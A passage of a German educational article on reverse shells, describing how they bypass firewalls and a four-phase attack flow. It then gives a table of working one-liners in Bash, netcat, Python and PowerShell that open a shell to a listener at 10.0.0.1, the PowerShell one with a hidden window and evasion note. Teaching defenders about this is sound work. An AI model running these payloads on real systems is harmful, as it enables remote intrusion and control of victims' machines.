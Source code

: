
# Reverse Shells in der Praxis: Technik, Gefahren und Gegenmaßnahmen

Reverse Shells gehören zu den mächtigsten Werkzeugen im Arsenal von Angreifern – und zur Pflichtlektüre jedes Blue-Teaming- und Pentesting-Teams. Diese ausführliche Analyse erläutert ihre Funktionsweise, zeigt typische Implementierungen, stellt Detektions- und Abwehrstrategien vor und veranschaulicht das Thema anhand realer Beispiele.

Eine Reverse Shell verkehrt das Verbindungsprinzip klassischer Bind-Shells: Nicht der Angreifer verbindet sich aktiv mit dem Ziel, sondern das kompromittierte System baut selbstständig eine ausgehende Verbindung zum Listener des Angreifers auf. Damit umgeht der Angriff häufig Firewalls, NAT-Gateways und DMZ-Segmente, die eingehende Sessions strenger kontrollieren als ausgehende[1](https://www.checkpoint.com/de/cyber-hub/cyber-security/what-is-cyber-attack/what-is-a-reverse-shell-attack/)2.

![Diagram showing how a reverse shell is established through remote code execution, with the victim web server initiating an outgoing connection to the attacker's server to allow remote command execution](https://pplx-res.cloudinary.com/image/upload/v1748545730/pplx_project_search_images/193764eb7d88d113f3936d4cd5b86c05551a6c52.jpg)

Diagram showing how a reverse shell is established through remote code execution, with the victim web server initiating an outgoing connection to the attacker's server to allow remote command execution [invicti](https://www.invicti.com/learn/remote-code-execution-rce/)

## 1. Architektur und Ablauf einer Reverse-Shell

## 1.1 Netzfluss in vier Phasen

1. Vorbereitung: Angreifer startet Listener (z. B. `nc -lvp 4444`, Metasploit-Handler oder PowerCat) und wartet auf eingehende Sessions[3](https://www.startupdefense.io/blog/defending-against-reverse-shell-attacks-methods-and-best-practices)[4](https://www.wiz.io/academy/reverse-shell-attacks).
    
2. Initiale Kompromittierung: Durch RCE-Schwachstelle, Social Engineering oder Dropper wird ein Einzeiler (Bash, Python, PowerShell) auf dem Zielsystem ausgeführt[5](https://www.reddit.com/r/AskNetsec/comments/10cpgqj/bind_shell_reverse/)[6](https://github.com/billchaison/evasion).
    
3. Outbound-Verbindung: Der Payload öffnet einen Socket (TCP, UDP, ICMP oder HTTP/S-Tunnel) zum Listener – oft über Ports 80/443, um Egress-Filter zu umgehen[7](https://lab.wallarm.com/what/was-ist-eine-reverse-shell-beispiel-und-vorbeugung/?lang=de)[8](https://www.linkedin.com/pulse/understanding-bind-shell-reverse-comprehensive-guide-nimnas-ahamed-izx4c)[9](https://www.aquasec.com/cloud-native-academy/cloud-attacks/reverse-shell-attack/).
    
4. Interaktive Steuerung: Der Angreifer erhält eine Shell, kann Befehle ausführen, Privilegien erhöhen, Persistenz anlegen und lateral pivotieren[10](https://cyberphinix.de/de/blog/reverse-shell/)[11](https://www.geeksforgeeks.org/computer-networks/difference-between-bind-shell-and-reverse-shell/).
    

## 1.2 Typische Einzeiler

|Sprache|Einzeiler|Besonderheit|Quelle|
|---|---|---|---|
|Bash|`bash -i >& /dev/tcp/10.0.0.1/8080 0>&1`|ohne externe Tools|[3](https://www.startupdefense.io/blog/defending-against-reverse-shell-attacks-methods-and-best-practices)|
|Netcat (trad.)|`nc 10.0.0.1 4444 -e /bin/sh`|benötigt `-e`-Option|[12](https://www.juniper.net/documentation/us/en/software/atp-cloud/atp-cloud-user-guide/topics/concept/atp-cloud-reverse-shell-overview.html)|
|Netcat (mkfifo)|`rm /tmp/f; mkfifo /tmp/f; cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 4444 >/tmp/f`|
|Python 3|`python3 -c 'import os,socket,pty,subprocess as p;s=socket.socket();s.connect(("10.0.0.1",4444));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'`|portabel, kein nc nötig|[13](https://www.cadosecurity.com/wiki/what-is-a-reverse-shell)|
|PowerShell 1-Liner|`powershell -nop -w hidden -c "$client=New-Object Net.Sockets.TCPClient('10.0.0.1',4444);$stream=$client.GetStream();[byte[]]$b=0..65535|%{0};while(($i=$stream.Read($b,0,$b.Length)) -ne 0){;$data=(New-Object Text.ASCIIEncoding).GetString($b,0,$i);$send=(iex $data 2>&1);$r=[text.encoding]::ASCII.GetBytes($send+'PS '+(pwd).Path+'> ');$stream.Write($r,0,$r.Length);$stream.Flush()}"`|läuft ohne nc, AV-Evasion möglich|
